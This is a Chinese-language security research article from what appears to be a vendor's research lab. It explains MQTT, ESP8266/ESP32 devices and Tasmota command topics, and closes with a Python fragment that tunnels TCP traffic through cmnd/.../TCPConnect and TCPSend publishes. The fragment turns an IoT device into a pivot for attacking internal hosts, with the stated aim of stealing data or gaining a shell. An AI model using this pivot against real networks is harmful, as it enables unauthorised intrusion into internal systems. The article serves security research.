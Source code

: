 #  利用MQTT协议缺陷攻击内网物联设备

原创 之D  [ 山石网科安全技术研究院 ](javascript:void\(0\);)

**山石网科安全技术研究院** ![]()

微信号 HSN_LAB

功能介绍
山石安全技术研究院成立于2020年，是公司的信息安全智库与创新部门，旗下包括智能、应用、工控、信创和核心基础等五大实验室，输出原创漏洞、安全专利、原创文章、安全议题等研究成果，不断提供新的漏洞证书、致谢与编号

____

___发表于_

收录于合集 #MQTT 1个

‍

 **#** **0** **1** **「 背景  」**  

MQTT是一种轻量级的通讯协议，特别适用于受限环境（如低带宽、不稳定的网络），其主要功能是提供了一种简单的、可靠的、实时的机制进行设备间的通信，而且通讯效率高、兼容各类常见的操作系统和硬件平台。MQTT可以采用TCP/IP协议、Websockets或UDP等协议来传输数据。

  

 **#** **02** **‍** **「 特点 」**  

轻量：由于其报文结构简单，因此运行在不同的开发环境中需要的资源更少。  

可靠：支持QoS保证消息的交付，在网络不稳定甚至失去连接的情况下仍然能够恢复之前未完成的消息传输。

易于集成：只需一个客户端库便可快速地添加到现有项目中进行沟通交流，不会对系统架构造成重大改变。

实时：通过发布/订阅机制使得设备之间能够实时传递消息。

应用范围广泛：例如，物联网设备控制、传感器数据收集等场景都可以采用MQTT协议进行通信。

  

 **#** **03** **‍** **「 消息类型  」**  

MQTT协议定义了五种类型的消息：

CONNECT

表明客户端请求连接到服务端。

CONNACK

返回给客户端的连接确认信息。

PUBLISH

消息发布，用于将信息从发布者发送到一个或多个订阅者。

SUBSCRIBE

订阅消息，客户端通知网络中某些主题的一些感兴趣的内容，并收到有关这些主题的任何新消息。

UNSUBSCRIBE

取消订阅消息，用于取消之前订阅的指定频道的消息，取消之后，不会再收到该频道的任何消息。

  

 **#** **04** **‍** **「 内网攻击  」**  
 **4.1  ** **ESP8266/ESP32** ****

ESP8266/ESP32 是乐鑫公司推出的一系列针对物联网应用而开发的单芯片微控制器，具有以下特点：

高性能和低成本：ESP8266/ESP32具有高性价比的特点，价格便宜但性能强大，支持通过互联网与其他设备进行通信。

小巧轻量：ESP8266/ESP32芯片尺寸小且易于集成到各种设备中，适合需要紧凑设计的应用场景。

低功耗：由于采用了节能技术，可深度睡眠模式的 ESP8266/ESP32 芯片功耗很低，可以在长时间不充电的情况下工作。

易于编程和多语言支持：ESP8266/ESP32芯片支持使用Arduino和Python等流行编程语言进行开发，因此与开发者常见的编程环境和开发工具完全兼容。

WiFi和蓝牙功能：ESP8266/ESP32内置WiFi模块，可以轻松连接互联网并实现无线通信。同时还拥有蓝牙技术，支持BLE和classical
Bluetooth两种方式。

它们广泛应用于智能家居、智慧城市、智慧教育、智能制造、车联网、智慧农业等多个领域，其中包括：

连接各种类型的传感器，如温度传感器、湿度传感器等，收集数据并与云端进行通信。

加入现有的Wi-Fi网络以及通过蓝牙与其他设备通信。

控制LED灯带、灯泡等各种类型的执行。

  

 **4.2  ** **FullTopic** ****

在 MQTT协议中，一个完整的主题可以包含三个部分： Topic前缀，Topic名称和Topic后缀。
FullTopic是指把这三个部分拼接在一起形成的完整主题。

举个例子，假设有一个传感器设备，它要将温度数据发送到一个名为“room1”的主题下，并且希望该主题被其他订阅者所共享。这个FullTopic可以写成以下方式：

devices/temperature/room1

\- devices是Topic前缀，用于标识消息来源或分类。

\- temperature是Topic名称，用于表示所发送的温度数据。

\- room1是Topic后缀，用于区分同一类型设备所产生的不同数据。

总之，FullTopic非常重要，因为许多功能，例如发布/订阅，都要使用FullTopic。FullTopic不仅能够明确表示设备产生的数据，同时还具有层级结构，方便客户端组织和过滤数据。

  

 **4.3  ** **特殊的FullTopic** ****

在
MQTT协议中，有一类特殊的FullTopic，其前缀为cmnd。这种FullTopic通常被用于指示MQTT客户端执行某个操作，比如开关灯、调整温度等。在ESP8266/ESP32等物联网设备中，cmnd前缀代表指令（command）的含义。例如，“cmnd/tasmota_XXXXXX/power
on”就是让名为tasmota_XXXXXX的智能插座打开电源。

FullTopic 中的cmnd/+/TCPSend采用的是 MQTT 协议，其中，

\- cmnd是主题（Topic）前缀，用来表示命令（command）的主题，通常是指向设备发送控制命令。

\- +是一个通配符，代表了一个单层的主题名，具体指什么需要看实际情况。可以匹配所有以 `cmnd/` 开头的主题。

\- TCPSend是主题后缀，用来区分不同的控制命令。它通常会根据开发者或厂商自定义需求来具体设置。

总的来说，这个 FullTopic 表示发送给设备一个具体的TCP数据流的控制命令。 例如：`cmnd/living-room/TCPSend`
可以用来控制客厅中的设备使用某种TCP协议。

除了cmnd外，MQTT协议还有其他的预定义前缀，每个前缀都有着不同的语义，例如stat表示状态（status），tele表示遥测（telemetry），cmnd则表示指令（commands）等。这些前缀可以帮助MQTT客户端更好地识别不同类型的消息，从而更加高效地处理和传递信息。

  

 **4.4  ** **利用ESP8266/ESP32为跳板攻击内网**

代码示例：

    
    
    sock.listen(1)  
        # IP LISTENER  
        while True:  
            # Wait for a connection  
            print ('[*] TCP: waiting for a connection')  
            connection, client_address = sock.accept()  
            try:  
                print ('[>] TCP: connection from', client_address)  
                print (f"[>] MQTT2TCP: connecting to {REMOTE_IP}:{REMOTE_PORT}")  
                # connecting through MQTT  
                client.publish(f"cmnd/{TASMOTA_NAME}/TCPConnect", f"{REMOTE_IP}:{REMOTE_PORT}")  
                client.tcpconn = connection  
                # Receive the data in small chunks and retransmit it  
                while True:  
                        data = connection.recv(16)  
                        print ('[>] TCP: received "%s"' % data)  
                        if data:  
                            print('[<] TCP: sending data back to the client')  
                            client.publish(f"cmnd/{TASMOTA_NAME}/TCPSend", binascii.hexlify((data)).upper())  
                        else:  
                            print ( '[*] TCP: no more data.')  
                            client.publish(f"cmnd/{TASMOTA_NAME}/TCPClose")  
                            break  
    

假如内网中存在一个脆弱易攻击的设备，若可以用mqtt协议访问到内网中的一个ESP8266/ESP32的设备，我们就可以利用其将mqtt协议转换成TCP流发送到脆弱的设备，从而拿到设备的敏感信息甚至直接拿到shell。

  

       

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


